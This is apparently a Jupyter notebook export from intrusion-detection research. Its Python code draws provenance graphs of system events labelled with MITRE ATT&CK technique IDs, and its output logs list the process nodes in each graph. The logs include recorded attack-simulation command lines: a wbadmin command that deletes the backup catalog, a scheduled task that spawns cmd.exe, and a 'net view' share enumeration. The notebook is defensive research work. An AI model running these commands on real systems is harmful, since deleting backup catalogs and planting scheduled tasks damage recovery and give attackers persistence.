335532 : powershell.exe_-ExecutionPolicy_Bypass_-C_"net_view_\\desktop-ba1rqfc.blueteam.com_/all"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2472
662677 : "C:\Windows\system32\net.exe"_view_\\desktop-ba1rqfc.blueteam.com_/all&C:\Windows\system32\net.exe&net.exe&8964
../graph_others2/T1135_deeac480-5c2a-42b5-90bb-41675ee53c7e.png has been generated!
T1490_9e5e4c0655fd1b5be88bd40b8251175f


<Figure size 432x288 with 0 Axes>



 99%|█████████▉| 164/165 [01:48<00:00,  3.83it/s]

Number of relations in the graph: 1
580868 : cmd.exe_/C_wbadmin_delete_catalog_-quiet&C:\Windows\system32\cmd.exe&cmd.exe&9828
600220 : wbadmin__delete_catalog_-quiet&C:\Windows\system32\wbadmin.exe&wbadmin.exe&4996
../graph_others2/T1490_9e5e4c0655fd1b5be88bd40b8251175f.png has been generated!
T1053.005_ee454be9197890de62705ce6255933fd


<Figure size 432x288 with 0 Axes>



100%|██████████| 165/165 [01:48<00:00,  1.52it/s]

Number of relations in the graph: 1
692785 : cmd.exe_/C_SCHTASKS_/Create_/SC_ONCE_/TN_spawn_/TR_C:\windows\system32\cmd.exe_/ST_20:10&C:\Windows\system32\cmd.exe&cmd.exe&6832
155170 : SCHTASKS__/Create_/SC_ONCE_/TN_spawn_/TR_C:\windows\system32\cmd.exe_/ST_20:10&C:\Windows\system32\schtasks.exe&schtasks.exe&10084
../graph_others2/T1053.005_ee454be9197890de62705ce6255933fd.png has been generated!
DONE!!


<Figure size 432x288 with 0 Axes>

In [8]:
import os
import numpy as np
import networkx as nx
from tqdm import tqdm
import matplotlib.cm as cm
import matplotlib.pyplot as plt
import matplotlib.patches as mpatches
from networkx.drawing.nx_agraph import graphviz_layout

def read_data(file_path):
    edges = []
    with open(file_path, "r") as file:
        next(file) # pass the 0th row (titles)

        for line in file:
            source, src_entity, destination, dest_entity, relation, label = line.strip().split(' ')
            # This is the without benign version
            if label == 'benign' or label.startswith('T1005') or label.startswith('T1046'): continue
            edges.append((source, src_entity, destination, dest_entity, relation, label))
            
    # edges is a list contains all the information (each set is stored in a tuple)
    return edges


def read_node_id_entity_map(file_path):
    node_id_entity_map = {}
    with open(file_path, 'r') as file:
        next(file)
        for line in file:
            entity, node_id = line.strip().split('\t') # splitted by the space
            node_id_entity_map[node_id] = entity
            
    return node_id_entity_map


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def get_related_nodes(edges, target, is_label=True):
    related_nodes = set()

    for edge in edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if (is_label and label == target) or (not is_label and (source == target or destination == target)):
            related_nodes.add(source)
            related_nodes.add(destination)

    return related_nodes

def draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, draw=False,title=None, figsize=(10, 8), dpi=100):
    if draw:
        related_nodes = get_related_nodes(target_edges, title)  # only consider edges with target_label
        other_labels_edges = get_other_labels_edges(full_edges, related_nodes, title)

        # Separate edges into main graph and others
        main_edges = [edge for edge in target_edges if edge[-1] == target_label]
        other_edges = [edge for edge in target_edges if edge[-1] != target_label] + other_labels_edges

        G = nx.DiGraph()
        total_relations = 0
        edge_labels = {}
        node_colors = {}
        edge_colors = {}
        node_shapes = {
            'process': 'o',    # Circle
            'registry': 'h',   # Hexagon
            'file': 's',       # Square
            'network': 'd'     # Diamond
        }

        # Extract unique labels (e.g., 'T1115_707' from 'T1115_70795de7cbb842edb029b3378c27c008')
        unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] for _, _, _, _, _, label in other_edges]))  

        # Convert the target_label to same format as other labels
        target_label_modified = target_label.split('_')[0] + '_' + target_label.split('_')[1][:3]

        # Create a color map with unique colors for each label
        colors = cm.rainbow(np.linspace(0, 1, len(unique_labels)+1))
        red_color = np.array([1, 0, 0, 1])  # Red color
        color_map = {label: color for label, color in zip(unique_labels, colors) if not np.array_equal(color, red_color)}
        color_map[target_label_modified] = red_color  # Assign red color to the target label separately

        # Add other edges
        for source, src_entity, destination, dest_entity, relation, label in other_edges:
            # before adding the edge
            src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
            dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape

            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)
                G.nodes[source]['shape'] = src_node_shape

            if destination not in G.nodes:
                G.add_node(destination)
                G.nodes[destination]['shape'] = dest_node_shape

            edge = (source, destination)
            if label != '0':
                label_prefix = label.split('_')[0]  # Get the first element after splitting by '_'
                label_prefix_extended = label_prefix + "_" + label.split('_')[1][:3]  # Add "_" and the first three characters after the second '_' to the label_prefix
            else:
                label_prefix_extended = 'benign'

            if edge in G.edges():
                edge_labels[edge] += ", " + relation
            else:
                G.add_edge(source, destination)

                # Check if the edge is a part of the target edges (main graph)
                if label == target_label:
                    node_colors[source] = 'red'
                    node_colors[destination] = 'red'
                    edge_colors[edge] = 'red'
                else:
                    node_colors[source] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                    node_colors[destination] = color_map.get(label_prefix_extended, 'gray')  # Set gray as the default color
                    edge_colors[edge] = color_map.get(label_prefix_extended, 'black')

                edge_labels[edge] = relation

            total_relations += 1
        

        # Add main graph edges
        for source, src_entity, destination, dest_entity, relation, label in main_edges:
            if label == 'benign': continue

            # before adding the edge
            src_node_shape = node_shapes.get(src_entity, 'o')  # Use 'o' as the default shape
            dest_node_shape = node_shapes.get(dest_entity, 'o')  # Use 'o' as the default shape

            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)
                G.nodes[source]['shape'] = src_node_shape

            if destination not in G.nodes:
                G.add_node(destination)
                G.nodes[destination]['shape'] = dest_node_shape
            # print(G.nodes[destination]['shape'])


            edge = (source, destination)
            G.add_edge(source, destination)
            node_colors[source] = 'red'
            node_colors[destination] = 'red'
            edge_colors[edge] = 'red'

            if edge in edge_labels:
                edge_labels[edge] += ", " + relation
            else:
                edge_labels[edge] = relation

            total_relations += 1
            
        pos = graphviz_layout(G, prog="dot")
        pos = {node: (x, y-0.1) for node, (x, y) in pos.items()}

        plt.figure(figsize = figsize, facecolor='white')

        # Draw nodes with custom label styles
        node_labels = {node: rf"$\bf{{{node}}}$" for node in G.nodes()}
        nx.draw_networkx_edges(G, pos, edge_color=[edge_colors[edge] for edge in G.edges()])

        for shape in node_shapes.values():
            nodelist=[node for node, data in G.nodes(data=True) if data['shape'] == shape]
            colorlist = [node_colors.get(node, 'g') for node in nodelist]

            nx.draw_networkx_nodes(G, pos,
                nodelist=nodelist,
                node_color=colorlist,
                node_size=1500,
                node_shape=shape)

        nx.draw_networkx_labels(G, pos, labels=node_labels, font_size=8, font_weight='bold', font_color='black')
        # Draw edges with custom edge labels
        edge_labels = {(source, destination): f"({len(relations.split(','))})" for (source, destination), relations in edge_labels.items()}
        # edge_color = [edge_colors[edge] if edge in edge_colors else 'black' for edge in G.edges()]
        nx.draw_networkx_edge_labels(G, pos, edge_labels=edge_labels)

        
        if title:
            plt.text(0, 1, title, transform=plt.gca().transAxes, fontsize=12, fontweight='bold', verticalalignment='top')

        # for labeling all the label with the corresponding color
        patches = [mpatches.Patch(color=color, label=label) for label, color in color_map.items()]
        plt.legend(handles=patches)

        plt.axis('off')  # Turn off the axis frame
        plt.savefig(file_name + ".png", dpi=dpi)
        plt.show()
        plt.clf()

        # Print the extra messages
        print(f"Number of relations in the graph: {total_relations}")
        count = 0
        # for node in G.nodes and count < 5:
        for node in list(G.nodes)[:5]:
            count += 1
            print(f'{node} : {node_id_entity_map.get(node, "unknown")}')

    # For getting the total relations in each label
    else:
        related_nodes = get_related_nodes(target_edges, title)  # only consider edges with target_label
        other_labels_edges = get_other_labels_edges(full_edges, related_nodes, title)

        # Separate edges into main graph and others
        main_edges = [edge for edge in target_edges if edge[-1] == target_label]
        other_edges = [edge for edge in target_edges if edge[-1] != target_label] + other_labels_edges

        G = nx.DiGraph()
        total_relations = 0
        edge_labels = {}
        node_colors = {}
        edge_colors = {}

        # Extract unique labels (e.g., 'T1115_707' from 'T1115_70795de7cbb842edb029b3378c27c008')
        unique_labels = list(set([label.split('_')[0] + '_' + label.split('_')[1][:3] for _, _, _, _, _, label in other_edges]))  

        # Convert the target_label to same format as other labels
        target_label_modified = target_label.split('_')[0] + '_' + target_label.split('_')[1][:3]

        # Add other edges
        for source, src_entity, destination, dest_entity, relation, label in other_edges:
            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)

            if destination not in G.nodes:
                G.add_node(destination)

            edge = (source, destination)
            if label != '0':
                label_prefix = label.split('_')[0]  # Get the first element after splitting by '_'
                label_prefix_extended = label_prefix + "_" + label.split('_')[1][:3]  # Add "_" and the first three characters after the second '_' to the label_prefix
            else:
                label_prefix_extended = 'benign'

            if edge in G.edges():
                edge_labels[edge] += ", " + relation
            else:
                G.add_edge(source, destination)
                edge_labels[edge] = relation

            total_relations += 1


        # Add main graph edges
        for source, src_entity, destination, dest_entity, relation, label in main_edges:
            # check if the src and dest nodes are exist, if not -> add and assign the shapes
            if source not in G.nodes:
                G.add_node(source)

            if destination not in G.nodes:
                G.add_node(destination)
                
            edge = (source, destination)
            G.add_edge(source, destination)

            if edge in edge_labels:
                edge_labels[edge] += ", " + relation
            else:
                edge_labels[edge] = relation

            total_relations += 1

        return total_relations


def get_related_nodes(edges, target_label):
    related_nodes = set()

    for edge in edges:
        if edge[5] == target_label:
            related_nodes.add(edge[0])
            related_nodes.add(edge[2]) # originally [1]

    return related_nodes


def get_other_labels_edges(full_edges, related_nodes, target_label):
    other_labels_edges = []
    for edge in full_edges:
        source, src_entity, destination, dest_entity, relation, label = edge
        if label != target_label and (source in related_nodes or destination in related_nodes):
            other_labels_edges.append(edge)
    return other_labels_edges


def is_valid_target_label(target_label):
    parts = target_label.split('_')
    return len(parts) >= 2 and len(parts[0]) > 0 and len(parts[1]) > 0

def draw_all_graphs(file_path, node_id_entity_map):
    full_edges = read_data(file_path)
    unique_labels = set(edge[5] for edge in full_edges)
    os.makedirs("../graph_others2/", exist_ok=True)

    # Get the total_relation first
    relations_dict = {}
    for target_label in tqdm(unique_labels):
        if not is_valid_target_label(target_label):
            print(f"Invalid target_label: {target_label}")
            continue

        target_edges = [edge for edge in full_edges if edge[5] == target_label]

        total_relations = draw_graph(full_edges, target_edges, "", target_label, node_id_entity_map, draw=False, title=target_label)
        relations_dict[target_label] = total_relations

    # print(relations_dict)
    sorted_labels = sorted(relations_dict.items(), key=lambda x:x[1], reverse=True)
    # print(sorted_labels)

    for target_label, _ in tqdm(sorted_labels):
        print(target_label)
        target_edges = [edge for edge in full_edges if edge[5] == target_label]
        file_name = f"../graph_others2/{target_label}"

        draw_graph(full_edges, target_edges, file_name, target_label, node_id_entity_map, draw=True, title=target_label)

        print(f"{file_name}.png has been generated!")


# file_path = "../data_with_entity/test.txt"
file_path = "../data_new_entity/combined_file_with_entity.txt"
node_id_entity_map = read_node_id_entity_map('../data_new_entity/entity2id.txt')

draw_all_graphs(file_path, node_id_entity_map)
print("DONE!!")


# Test version of benign

 57%|█████▋    | 94/166 [01:31<01:08,  1.05it/s]

Invalid target_label: benign


  0%|          | 0/165 [00:00<?, ?it/s]

T1560_a1ee301b0508747b468d578a14e5c1a5


/tmp/ipykernel_492/128794834.py:198: UserWarning: Creating legend with loc="best" can be slow with large amounts of data.
  plt.savefig(file_name + ".png", dpi=dpi)
/workdir/home/euni/anaconda3/lib/python3.9/site-packages/IPython/core/pylabtools.py:151: UserWarning: Creating legend with loc="best" can be slow with large amounts of data.
  fig.canvas.print_figure(bytes_io, **kw)




  1%|          | 1/165 [01:37<4:26:40, 97.56s/it]

Number of relations in the graph: 4842
733382 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&6068
256923 : C:\Users\ezk\Desktop
148158 : C:\Users\ezk\Desktop\ProcessMonitor
192015 : C:\Users\ezk
291481 : C:\Users\ezk\AppData\Local
../graph_benign2/T1560_a1ee301b0508747b468d578a14e5c1a5.png has been generated!
T1105_e6715e61f5df646692c624b3499384c4


/workdir/home/euni/anaconda3/lib/python3.9/site-packages/pygraphviz/agraph.py:1407: RuntimeWarning: Warning: using box for unknown shape o

  warnings.warn(b"".join(errors).decode(self.encoding), RuntimeWarning)


<Figure size 432x288 with 0 Axes>



  1%|          | 2/165 [03:59<5:36:23, 123.83s/it]

Number of relations in the graph: 4485
665262 : C:\Windows\system32\services.exe&C:\Windows\system32\services.exe&services.exe&652
33490 : HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Image_File_Execution_Options\svchost.exe
598831 : HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Image_File_Execution_Options\svchost.exe\UseFilter
707337 : HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Image_File_Execution_Options\svchost.exe\LoadCHPEBinaries
393223 : HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Image_File_Execution_Options\svchost.exe\Debugger
../graph_benign2/T1105_e6715e61f5df646692c624b3499384c4.png has been generated!
T1119_344e7eaf650763e0d3e9f02e62c1cf4b


<Figure size 432x288 with 0 Axes>



  2%|▏         | 3/165 [05:16<4:35:55, 102.20s/it]

Number of relations in the graph: 3857
733382 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&6068
192015 : C:\Users\ezk
291481 : C:\Users\ezk\AppData\Local
409918 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&11184
365620 : C:\Users\ezk\AppData
../graph_benign2/T1119_344e7eaf650763e0d3e9f02e62c1cf4b.png has been generated!
T1115_70795de7cbb842edb029b3378c27c008


<Figure size 432x288 with 0 Axes>



  2%|▏         | 4/165 [06:21<3:55:02, 87.60s/it] 

Number of relations in the graph: 2028
409918 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&11184
502744 : C:\Windows\System32
665973 : C:\Windows\System32\dsregcmd.exe_$(Arg0)_$(Arg1)_$(Arg2)&C:\Windows\System32\dsregcmd.exe&dsregcmd.exe&3568
273760 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&7596
631499 : gpupdate.exe_/target:computer&C:\Windows\system32\gpupdate.exe&gpupdate.exe&7484
../graph_benign2/T1115_70795de7cbb842edb029b3378c27c008.png has been generated!
T1112_e7a987cbef27263e666e5b096488dc55


<Figure size 432x288 with 0 Axes>



  3%|▎         | 5/165 [08:32<4:35:46, 103.42s/it]

Number of relations in the graph: 2000
409918 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&11184
79822 : HKLM\System\CurrentControlSet\Control\FileSystem\LongPathsEnabled
567782 : \??\C:\Windows\system32\conhost.exe_0xffffffff_-ForceV1&C:\Windows\System32\Conhost.exe&Conhost.exe&2036
665973 : C:\Windows\System32\dsregcmd.exe_$(Arg0)_$(Arg1)_$(Arg2)&C:\Windows\System32\dsregcmd.exe&dsregcmd.exe&3568
273760 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&7596
../graph_benign2/T1112_e7a987cbef27263e666e5b096488dc55.png has been generated!
T1083_52177cc1-b9ab-4411-ac21-2eadc4b5d3b8


<Figure size 432x288 with 0 Axes>



  4%|▎         | 6/165 [09:36<3:58:22, 89.95s/it] 

Number of relations in the graph: 1861
409918 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&11184
502744 : C:\Windows\System32
665973 : C:\Windows\System32\dsregcmd.exe_$(Arg0)_$(Arg1)_$(Arg2)&C:\Windows\System32\dsregcmd.exe&dsregcmd.exe&3568
273760 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe"_-Embedding&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.099.0508.0001\FileCoAuth.exe&FileCoAuth.exe&7596
631499 : gpupdate.exe_/target:computer&C:\Windows\system32\gpupdate.exe&gpupdate.exe&7484
../graph_benign2/T1083_52177cc1-b9ab-4411-ac21-2eadc4b5d3b8.png has been generated!
T1059.001_e5f9de8f-3df1-4e78-ad92-a784e3f6770d


<Figure size 432x288 with 0 Axes>



  4%|▍         | 7/165 [09:53<2:53:54, 66.04s/it]

Number of relations in the graph: 648
572988 : taskhostw.exe&C:\Windows\system32\taskhostw.exe&taskhostw.exe&3168
263370 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
363038 : "C:\Windows\system32\backgroundTaskHost.exe"_-ServerName:CortanaUI.AppX3bn25b6f886wmg6twh46972vprk9tnbf.mca&C:\Windows\system32\backgroundTaskHost.exe&backgroundTaskHost.exe&9484
266227 : C:\Windows\System32\WindowsPowerShell\v1.0\en-US\powershell.exe.mui
90059 : C:\Windows\System32\smartscreen.exe_-Embedding&C:\Windows\System32\smartscreen.exe&smartscreen.exe&8176
../graph_benign2/T1059.001_e5f9de8f-3df1-4e78-ad92-a784e3f6770d.png has been generated!
T1574.001_63bbedafba2f541552ac3579e9e3737b


<Figure size 432x288 with 0 Axes>



  5%|▍         | 8/165 [10:09<2:10:54, 50.03s/it]

Number of relations in the graph: 616
15524 : C:\Windows\system32\svchost.exe_-k_netsvcs_-p_-s_gpsvc&C:\Windows\system32\svchost.exe&svchost.exe&10456
377295 : C:\Windows\System32\amsi.dll
572988 : taskhostw.exe&C:\Windows\system32\taskhostw.exe&taskhostw.exe&3168
263370 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
363038 : "C:\Windows\system32\backgroundTaskHost.exe"_-ServerName:CortanaUI.AppX3bn25b6f886wmg6twh46972vprk9tnbf.mca&C:\Windows\system32\backgroundTaskHost.exe&backgroundTaskHost.exe&9484
../graph_benign2/T1574.001_63bbedafba2f541552ac3579e9e3737b.png has been generated!
T1074.001_4e97e699-93d7-4040-b5a3-2e906a58199e


<Figure size 432x288 with 0 Axes>



  5%|▌         | 9/165 [10:19<1:37:40, 37.57s/it]

Number of relations in the graph: 358
665973 : C:\Windows\System32\dsregcmd.exe_$(Arg0)_$(Arg1)_$(Arg2)&C:\Windows\System32\dsregcmd.exe&dsregcmd.exe&3568
32704 : C:\Windows\System32\conhost.exe
567782 : \??\C:\Windows\system32\conhost.exe_0xffffffff_-ForceV1&C:\Windows\System32\Conhost.exe&Conhost.exe&2036
765159 : %SystemRoot%\system32\csrss.exe_ObjectDirectory=\Windows_SharedSection=1024,20480,768_Windows=On_SubSystemType=Windows_ServerDll=basesrv,1_ServerDll=winsrv:UserServerDllInitialization,3_ServerDll=sxssrv,4_ProfileControl=Off_MaxRequestThreads=16&C:\Windows\system32\csrss.exe&csrss.exe&444
631499 : gpupdate.exe_/target:computer&C:\Windows\system32\gpupdate.exe&gpupdate.exe&7484
../graph_benign2/T1074.001_4e97e699-93d7-4040-b5a3-2e906a58199e.png has been generated!
T1036.003_04e8d83e7badf098d50800d6aa1dd487


<Figure size 432x288 with 0 Axes>



  6%|▌         | 10/165 [10:23<1:10:13, 27.19s/it]

Number of relations in the graph: 190
517657 : C:\Windows\System32\RuntimeBroker.exe_-Embedding&C:\Windows\System32\RuntimeBroker.exe&RuntimeBroker.exe&6184
750349 : C:\Windows\System32\cmd.exe
733382 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&6068
90059 : C:\Windows\System32\smartscreen.exe_-Embedding&C:\Windows\System32\smartscreen.exe&smartscreen.exe&8176
467060 : %SystemRoot%\system32\csrss.exe_ObjectDirectory=\Windows_SharedSection=1024,20480,768_Windows=On_SubSystemType=Windows_ServerDll=basesrv,1_ServerDll=winsrv:UserServerDllInitialization,3_ServerDll=sxssrv,4_ProfileControl=Off_MaxRequestThreads=16&C:\Windows\system32\csrss.exe&csrss.exe&516
../graph_benign2/T1036.003_04e8d83e7badf098d50800d6aa1dd487.png has been generated!
T1219_f1b3fca18d7465cd10e5a7477a3bf97d


